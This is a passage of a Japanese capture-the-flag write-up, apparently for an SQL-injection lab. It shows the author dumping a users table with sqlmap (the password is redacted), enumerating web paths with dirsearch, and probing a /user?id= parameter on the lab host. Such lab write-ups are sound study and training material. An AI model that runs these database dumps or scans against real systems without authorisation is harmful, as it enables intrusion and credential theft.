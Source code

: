 sqhell_2 テーブルと全く同じ認証情報が出てきた。無駄骨・・・？

```shell
sqlmap -r ./req-login.txt -D sqhell_2 --dump-all

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | ひみつ | admin    |
+----+---------------------------------+----------+
```

これを使ってログインすると、フラグ１が表示される。

## dirsearch

```shell
$ dirsearch -u http://10.10.76.124
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/CTF/0507/reports/http_10.10.76.124/_25-05-07_04-01-36.txt

Target: http://10.10.76.124/

[04:01:36] Starting:
[04:03:03] 200 -    2KB - /login
[04:03:03] 200 -    2KB - /login/
[04:03:21] 200 -   21B  - /post
[04:03:25] 200 -    3KB - /register
[04:03:43] 200 -   21B  - /user
[04:03:43] 200 -   21B  - /user/

Task Completed
```

/post, /user を発見。

## /user

`Missing parameter: id` と表示される。

```http
GET /user?id=0 HTTP/1.1
Host: 10.10.76.124
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
